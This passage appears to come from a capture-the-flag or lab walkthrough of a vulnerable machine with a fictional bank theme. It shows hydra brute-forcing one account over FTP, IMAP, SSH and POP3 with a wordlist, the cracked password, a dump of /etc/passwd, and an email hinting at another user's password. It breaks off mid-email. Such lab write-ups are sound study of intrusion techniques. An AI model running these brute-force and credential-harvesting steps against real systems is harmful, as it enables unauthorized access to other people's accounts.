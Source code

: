 ######## Scan started at Thu May  7 13:50:31 2015 #########
192.168.1.20: csadmin exists
######## Scan completed at Thu May  7 13:50:31 2015 #########
1 results.

1 queries in 2 seconds (0.5 queries / sec)
{% endcodeblock %}

We use hydra to crack user account successfully (ftp was the fastest way):
{% codeblock %}
root@kali32:~# hydra -l csadmin 192.168.1.20 ftp -P /usr/share/ncrack/top50000.pwd -V
[21][ftp] host: 192.168.1.20   login: csadmin   password: rocker

root@kali32:~# hydra -l csadmin 192.168.1.20 imap -P /usr/share/ncrack/top50000.pwd -V
[143][imap] host: 192.168.1.20   login: csadmin   password: rocker

root@kali32:~# hydra -l csadmin 192.168.1.20 ssh -P /usr/share/ncrack/top50000.pwd -V -t 4
[22][ssh] host: 192.168.1.20   login: csadmin   password: rocker

root@kali32:~# hydra -l csadmin 192.168.1.20 pop3 -P /usr/share/ncrack/top50000.pwd -V
[110][pop3] host: 192.168.1.20   login: csadmin   password: rocker
{% endcodeblock %}

We log in as csadmin / rocker:
{% codeblock %}
csadmin@slax:~$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
sysadmin:x:1000:10:,,,:/home/sysadmin:/bin/bash
dbadmin:x:1001:100:,,,:/home/dbadmin:/bin/bash
sdadmin:x:1002:100:,,,:/home/sdadmin:/bin/bash
csadmin:x:1003:100:,,,:/home/csadmin:/bin/bash
{% endcodeblock %}

In home directory, there is a clue how to get sdadmin's password:
{% codeblock %}
csadmin@slax:~$ cat mailserv_download/2010122014234.j12Gqo4H049241 
To: csadmin@nosecbank.com
CC: 
Subject: My Son's Birthday
Date: Mon, 20 Dec 2010 14:23:46 +0500
Return-Path: <sdadmin@nosecbank.com>
Delivered-To: csadmin:nosecbank.com@nosecbank.com
Received: (qmail 20281 invoked from network); 20 Dec 2010 09:23:46 -0000
X-Received: from network (192.168.1.123) by mailserv1-3.us6.service.com; 
20 Dec 2010 09:23:46 -0000
Received: from www.nosecbank.com (unknown [198.65.139.34]) by 
srv5.us6.service.com (Postfix) with ESMTP id D98402459DD for 